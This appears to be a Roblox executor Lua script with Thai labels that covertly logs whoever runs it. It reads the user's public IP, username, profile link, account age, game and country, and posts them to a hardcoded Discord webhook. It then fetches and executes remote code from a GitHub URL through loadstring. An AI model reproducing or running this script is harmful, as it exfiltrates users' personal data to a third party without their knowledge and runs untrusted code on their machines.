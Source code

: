 local hwid = "ไม่ได้ดัก"
local excutorcheck = "ไม่ได้ดัก"
local ip = tostring(game:HttpGet("https://api.ipify.org", true))
local GetName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local url = "https://discordapp.com/api/webhooks/869544310381637642/_Kcd3KukxHo1DholkDvyLVncGd5Pigw5uWU36wmJzVpa6HpSn5yXha8DuQBhteLDbpB6"local data = {
   ["content"]= " ",
   ["embeds"]= {
    {
      ["title"]= "มีคนรันสคริป",
      ["color"]= 16761344,
      ["fields"]= {
        {
          ["name"]= "Player Name",
          ["value"]= game.Players.LocalPlayer.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Player Profile",
          ["value"]= "https://www.roblox.com/users/"..game.Players.LocalPlayer.UserId.."/profile",
          ["inline"]= true
        },
        {
          ["name"]= "Account Ages",
          ["value"]= game.Players.LocalPlayer.AccountAge,
          ["inline"]= true
        },
        {
          ["name"]= "Excutor",
          ["value"]= excutorcheck,
          ["inline"]= true
        },
        {
          ["name"]= "Game Name",
          ["value"]= GetName.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Game Link",
          ["value"]= "https://roblox.com/games/"..game.PlaceId.."/",
          ["inline"]= true
        }
      },
      ["footer"]= {
        ["text"]= "IP : "..ip.."   |   HWID : "..hwid.."   |   ".."Country : "..game:GetService("LocalizationService"):GetCountryRegionForPlayerAsync(game.Players.LocalPlayer)
      }
    }
  },
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevilXD99/mapping/main/README.md"))()
